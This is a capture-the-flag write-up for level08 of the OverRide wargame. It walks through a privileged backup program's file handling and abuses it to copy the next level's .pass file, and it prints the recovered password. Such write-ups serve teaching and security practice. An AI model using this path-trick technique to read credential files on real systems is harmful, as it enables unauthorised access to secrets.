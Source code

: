 # level8 Path Traversal

## Code
```c
  v4 = fopen("./backups/.log", "w");

  stream = fopen(argv[1], "r");

  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, O_WRONLY | O_CREAT, 0660);
```
There are 3 files they open in the binary.

1. it opens `./backups/.log` with `write`.
2. it opens `argv[1]` -> `stream` with `read`.
3. it opens a file name, `./backups/<argv[1]>`.

### `./backups`
To make first `open` work, we should create `backups` directory in where we run the command. 
```bash
# bad example
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open ./backups/.log
# good example
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open hi # it's another problem. :)
```

### `argv[1]`
To make second `open` work, we should create a file has same name of `argv[1]`.
```bash 
# bad example
level08@OverRide:/tmp$ ~/level08 hi
ERROR: Failed to open hi
# good example
level08@OverRide:/tmp$ echo "hello I'm hi" > hi
level08@OverRide:/tmp$ ~/level08 hi
level08@OverRide:/tmp$ cat backups/hi
hello I'm hi
```

They open the file we specify as argv[1], read its contents, and write them to `./backups/<argv[1]>`. So we will try to read the `.pass` file directly.

## Payload

First, we should create all necessary directories.

```bash
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
level08@OverRide:/tmp$ ls -Rl
.:
total 0
drwxrwxr-x 3 level08 level08 80 Jul  7 20:47 backups

./backups:
total 0
drwxrwxr-x 3 level08 level08 60 Jul  7 20:47 home

./backups/home:
total 0
drwxrwxr-x 3 level08 level08 60 Jul  7 20:47 users

./backups/home/users:
total 0
drwxrwxr-x 2 level08 level08 40 Jul  7 20:47 level09

./backups/home/users/level09:
total 0
```

Then, just run the command!
```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

Now it must be there!
```bash
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```